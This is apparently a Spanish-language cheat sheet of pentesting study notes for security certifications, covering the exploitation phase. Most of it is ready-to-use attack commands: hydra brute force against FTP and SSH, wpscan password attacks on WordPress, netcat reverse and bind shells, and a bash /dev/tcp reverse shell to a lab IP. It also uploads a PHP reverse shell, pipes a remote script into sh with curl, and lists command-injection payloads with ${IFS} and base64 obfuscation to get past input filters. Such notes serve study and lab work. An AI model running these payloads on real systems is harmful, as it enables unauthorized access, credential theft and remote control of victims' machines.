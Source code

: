 ## Explotación
### Indice
- [FTP (Fuerza bruta)](#exftp)
- [SSH (Fuerza bruta)](#exssh)
- [HTTP SSL](#exssl)
- [Wordpress Credentials (XMRPC abusing)](#exwp)
- [Reverse Shell](#shell)
- [Experiencias con Reverse Shell](#exshell)
- [Inyeccion comandos Web](#inyeccion_comandos)
 <a name="exftp"></a>
### FTP
 
Fuerza bruta: ``` hydra -l user -P passwords.txt ftp://172.17.0.2```

 * Con -l le especificamos un usuario, con -L le especificamos un diccionario de usuarios. igual para la contraseña
 
Si aparece la version, se podría mirar algun exploit.
 
<a name="exssh"></a>
 ### SSH
 Fuerza bruta: ``` hydra -l user -P passwords.txt ssh://172.17.0.2 -s 2222```

 <a name="exssl"></a>
## HTTPS SSL
  
 Ver vulnerabilidades en certificados SSL:
 ```sslscan google.com:443```  
 algunas maquinas son vulnerables a Heartbleed, lo que consigue hacer un dump de la memoria en la que podemos llegar a encontrar claves privadas, nombres de usuario, contraseñas...

<a name="exwp"></a>
 ## Wordpress
 
Credenciales por fuerza bruta abusando de xmlrpc
 ```
 wpscan --url <ip> -U <usuario encontrado> -P /ruta/al/rockyou.txt
 ```

 ## Reverse, Bind, Forward Shells
 
 Suponiendo que conseguimos realizar ejecución remota de comandos, podriamos tratar de enviarnos una shell interactiva desde la cual movernos por el sistema atacado. Tenemos 3 tipos:
 <a name="shell"></a>
 ### Reverse shell
 La víctima nos envía una shell interactiva a nosotros, que estremos a la escucha con netcat. En [Pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) tenemos diferentes maneras de ejecutar la shell remota según los recursos que dispongamos. Solamente deberíamos estar a la escucha con netcat de la siguiente manera:
 ```
 nc -nlvp 443
 ```
 ### Bind shell
 La conexión es igual que la anterior solo que de manera inversa. en este caso el atacante es el que está a la escucha pero ofreciendo una bash, para ello:
 ```
 Victima: nc -nlvp 443 -e /bin/bash
 Atacante: nc <ip> <puerto>
 ```
 
 ### Forward Shell
 Es una manera de evitar las restricciones que pudieramos tener a la hora de establecer una conexión, por ejemplo si a través de fiewall nos capasen los puertos. La consola no es 100% interactiva pero se puede simular.
 
 Para ello necesitamos poder subir archivos, y subiriamos el php reverse shell de pentestmonkey. y nos descargamos el siguiente ejecutable: [TTYoverHTTP](https://raw.githubusercontent.com/s4vitar/ttyoverhttp/master/tty_over_http.py) 
 la manera de proceder es la siguiente:
 ```
 1. subir el fichero cmd.php (o como le queramos llamar)
 2. Editar si fuera necesario el ttyoverhttp, con la ruta y el nombre del fichero para decirle donde se ubica el php reverse shell
 3. Ejecutar tty_over_http.py
 ```


 <a name="inyeccion_comandos"></a>
 <a name="exshell"></a>
### Experiencias con Reverse Shell  

#### Si no deja introducir espacios en blanco, lo mejor es: 
1º Crear un fichero .sh que contenga el código de la reverse shell  
```
bash -c 'bash -i >& /dev/tcp/10.10.14.54/443 0>&1'
```
2º Montar un servidor web para ofrecer el fichero  
```
python3 -m http.server 80
```
3º En la parte donde podamos inyectar el comando:
```
curl${IFS}<IP>/shell.sh|sh
o
curl${IFS}<IP>/shell.sh|bash

${IFS} sería el espacio en bash
```
### Inyección de comandos WEB  

hay varias maneras de inyectar comandos, por ejemplo en burpsuite. Si identificamos un campo, lugar donde creemos que se pueda inyectar comandos, aquí se listan varias opciones para hacerlo.  
```
$(comando)
;comando
;comando;
;comando;#

No todos los comandos funcionan, probar con: id, whoami, ps, ls ...
```

Si no nos permite espacios:  
```
Cambiamos el espacio por ${IFS} ejemplo:
echo${IFS}hola${IFS}mundo
```

Conversión a base64 (para evitar el error con caracteres no permitidos, como el &)
```
# Bash B64 Ofuscated
{echo,COMMAND_BASE64}|{base64,-d}|bash 
echo${IFS}COMMAND_BASE64|base64${IFS}-d|bash
bash -c {echo,COMMAND_BASE64}|{base64,-d}|{bash,-i} 
echo COMMAND_BASE64 | base64 -d | bash 
```
<a href="https://github.com/glmbxecurity/eJPT2_eCCPT2_eWPT_Notes/tree/main"> Menú Principal</a>
